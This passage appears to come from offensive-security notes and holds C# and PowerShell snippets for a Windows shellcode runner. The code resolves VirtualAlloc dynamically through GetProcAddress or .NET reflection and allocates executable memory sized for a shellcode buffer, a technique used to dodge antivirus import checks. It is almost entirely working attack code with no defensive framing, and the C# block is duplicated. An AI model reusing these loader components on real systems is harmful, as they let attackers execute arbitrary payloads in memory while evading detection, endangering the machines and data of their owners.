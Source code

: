     [UnmanagedFunctionPointer(CallingConvention.StdCall)] delegate IntPtr VirtualAllocDelegate(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    IntPtr hKernel32 = LoadLibrary("kernel32.dll");
    IntPtr VirtualAllocptr = GetProcAddress(hKernel32, "VirtualAlloc");

    VirtualAllocDelegate VirtualAlloc_Runtime = (VirtualAllocDelegate) Marshal.GetDelegateForFunctionPointer(VirtualAllocptr, typeof (VirtualAllocDelegate));

    IntPtr ShellCodeAddr = VirtualAlloc_Runtime(IntPtr.Zero, (uint) shellcodeBytes.Length, 0x1000, 0x40);
    [DllImport("kernel32.dll")] static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32.dll")] static extern IntPtr LoadLibrary(string dllName);
    [UnmanagedFunctionPointer(CallingConvention.StdCall)] delegate IntPtr VirtualAllocDelegate(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    IntPtr hKernel32 = LoadLibrary("kernel32.dll");
    IntPtr VirtualAllocptr = GetProcAddress(hKernel32, "VirtualAlloc");

    VirtualAllocDelegate VirtualAlloc_Runtime = (VirtualAllocDelegate) Marshal.GetDelegateForFunctionPointer(VirtualAllocptr, typeof (VirtualAllocDelegate));

    IntPtr ShellCodeAddr = VirtualAlloc_Runtime(IntPtr.Zero, (uint) shellcodeBytes.Length, 0x1000, 0x40);
    ```
    
- PowerShell Runtime
    
```powershell
 function LookupFunc {    
 Param ($moduleName, $functionName)    
$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')    
$tmp=@()    
$assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}    
return $tmp[0].Invoke($null,@(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))


}


function getDelegateType {

Param ([Parameter(Position = 0, Mandatory = $True)] 
[Type[]] $func, [Parameter(Position = 1)] 
[Type] $delType = [Void])$type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])$type.DefineConstructor('RTSpecialName,HideBySig,Public',[System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')$type.DefineMethod('Invoke', 'Public, HideBySig,NewSlot,Virtual',$delType, $func).SetImplementationFlags('Runtime, Managed')
return $type.CreateType()

}
$lpMem =[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
```
